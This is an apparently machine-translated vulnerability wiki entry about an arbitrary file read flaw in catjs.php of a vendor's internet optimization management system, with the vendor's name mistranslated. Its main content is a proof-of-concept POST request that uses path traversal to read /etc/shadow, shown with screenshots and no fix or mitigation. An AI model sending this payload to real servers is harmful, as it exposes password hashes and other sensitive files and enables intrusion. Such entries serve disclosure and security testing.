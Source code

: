 #Shenxinshui SG Internet Optimization Management System catjs.php Any file reading vulnerability

## Vulnerability Description

Deepin SG Internet Optimization Management System catjs.php has an arbitrary file reading vulnerability, and attackers can obtain sensitive files on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shenxinshui SG Internet Optimization Management System </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1675086253816-a325abd8-8309-4a8f-94d5-b829bd803a8d.png)

Verify POC

```plain
POST /php/catjs.php

["../../../../../../etc/shadow"]
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1675086290296-c3dffe51-dd0f-45c1-8502-c3680b0fdabb.png)